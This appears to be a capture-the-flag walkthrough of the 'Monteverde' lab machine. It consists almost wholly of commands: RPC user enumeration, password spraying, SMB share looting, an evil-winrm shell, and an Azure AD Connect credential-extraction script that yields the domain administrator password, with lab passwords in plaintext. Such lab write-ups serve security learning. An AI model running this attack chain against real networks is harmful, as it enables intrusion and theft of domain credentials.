```yaml
---
layout: default
title: Monteverde
---
```

```bash
rpcclient -U '' 10.10.10.172 -c "enumdomusers" -N | tr '[]' ' '| awk '{print $2}' > validUsers.txt
```

```bash
netexec smb 10.10.10.172 -u validUsers.txt  -p validUsers.txt  -d megabank.local --continue-on-success --no-bruteforce
```

```
SABatchJobs \ SABatchJobs 
```

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
```

```bash
smbclient //10.10.10.172/azure_uploads -U SABatchJobs%SABatchJobs
```

```bash
smbclient //10.10.10.172/users\$ -U SABatchJobs%SABatchJobs

get azure.xml
```

```
4n0therD4y@n0th3r$
```

```bash
netexec smb 10.10.10.172 -u validUsers.txt  -p '4n0therD4y@n0th3r$'  -d megabank.local --continue-on-success
```

```
mhope \ 4n0therD4y@n0th3r$
```

```bash
evil-winrm -i 10.10.10.172 -u 'mhope'  -p '4n0therD4y@n0th3r$'
```

Como somos azure admins , podemos extraer las credenciales de todo el Azure AD
 
https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor.git

```bash
upload /mnt/Windows/Hacking/tools/EntraID/Azure-AD-Connect-Credential-Extractor/decrypt.ps1
```

```powershell
./decrypt.ps1
```

```
administrator \ d0m@in4dminyeah!
```